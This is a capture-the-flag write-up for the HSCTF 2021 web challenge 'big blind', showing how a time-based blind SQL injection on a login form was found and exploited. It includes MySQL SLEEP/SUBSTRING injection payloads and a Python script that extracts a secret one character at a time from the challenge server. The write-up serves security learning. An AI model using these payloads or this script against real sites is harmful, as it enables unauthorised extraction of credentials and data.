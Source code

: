 ```yaml
---
layout: load_md
title: The White Circle | Hsctf 2021 | big blind Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Hsctf 2021
parent: hsctf_2021
category: web
challenge: big blind
tags: "web, twh, sql, sqli, python"
date: 2021-06-20T00:00:00+00:00
last_modified_at: 2021-06-20T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Hsctf 2021</h1>

## big blind
> Solved By : thewhiteh4t


- we are given a login page in this challenge
- the page source does not contain any JS
- After trying several things I found that we get status 500 on using `'` in either username or password field
- we don’t get an error if we use `'` in both fields
- A better test is to use the following :

```
user : ''
pass : '
```

- in the above case we get an error which shows that its due to an un-closed `'`
- we don’t get an error in the following case :

```
user : ''
pass : ''
```

- finally I confirmed that its blind SQL injection by using the following payload :

```
' or sleep(2) and 1=1#
```

- so here it was clear that its MySQL because syntax for others are different
- I used `SUBSTRING` and `SLEEP` to bruteforce the flag one character at a time
- payload :

```
' OR IF(SUBSTRING(pass,1,1)='f',sleep(5),sleep(0))#
```

- Explanation :
    - substring function requires three arguments
    - first argument is the string which we want to check
    - second argument is the position which we want to check
    - third argument is the length we want to check
    - to check one character at a time I incremented second argument each time and kept third argument fixed
- Usage of `IF` :
    - If uses three arguments
    - first is the condition
    - second is action if condition is `True`
    - third is action if condition is `False`
    - so when we find a match we will see a sleep of 5 seconds else page will load immediately
- Automation :

```python
from requests import post, ReadTimeout

url = 'https://big-blind.hsc.tf/'
charset = '_{}flagisodnbcehjkmpqrtuvwxyz'
flag = ''
counter = 0

while flag.endswith('}') != True:
    counter += 1
    for char in charset:
        payload = {
            'user': 'twh',
            'pass': f"' OR IF(SUBSTRING(pass,{counter},1)='{char}',sleep(5),sleep(0))#"
        }
        try:
            r = post(url, data=payload, timeout=3)
        except ReadTimeout:
            flag += char
            print(f'FLAG : {flag}')
            break
```

- output :

![](https://i.imgur.com/fAdPjA5.png)

